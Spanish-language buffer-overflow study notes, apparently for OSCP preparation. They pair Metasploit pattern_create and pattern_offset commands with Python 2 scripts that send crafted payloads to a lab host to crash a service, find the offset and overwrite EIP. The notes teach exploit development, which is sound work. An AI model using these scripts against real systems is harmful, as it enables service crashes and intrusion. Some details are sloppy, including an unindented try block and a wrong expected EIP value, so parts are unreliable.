 # Buscar el Offset

1º Generar el patron de bytes para petar el offset
~~~~c
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l VALFUZZ(2800)
~~~~

Script link:
[https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/finding-the-offset](https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/finding-the-offset)

Script:
~~~~python
#!/usr/bin/python2.7
import sys, socket

offset = "RESULTADO DE COMANDO ANTERIOR"

while True:
try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('10.10.10.111',3000))
	s.send(('FUNCION /.:/' + offset))
	s.close()

except:
	print "Error connecting to server"
	sys.exit()
~~~~
NOTA: Mismos parametros a editar sumado al resultado del comando anterior

2º Ejecutar este codigo y esperar que el programa pete y/o Error connecting to the server

3º Copiar valor del EIP

4º Copiar Valor del EIP

5º Con el valor del EIP lo copiamos al 2º comando depues del valor -q

6º El offset deberia aparecer
~~~~c
>> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3800 -q 386F4337 #(EIP del Immunity Debbuger)
~~~~


# Overwriting the EIP
1º En este paso vamos a comprobar que el valor del EIP sea correcto EL VALOR TIENE QUE DAR 4242424242
https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/overwriting-the-eip

2º Sobreescribir los valores de siempre en este codigo
~~~~python
#!/usr/bin/python2.7
import sys, socket

shellcode = "A" * VALOR_DEL_OFFSET + "B" * 4 #(valor del paso anterior)

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(('10.10.10.111',3000))
		s.send(('FUNCION /.:/' + shellcode))
		s.close()

	except:
		print "Error connecting to server"
~~~~
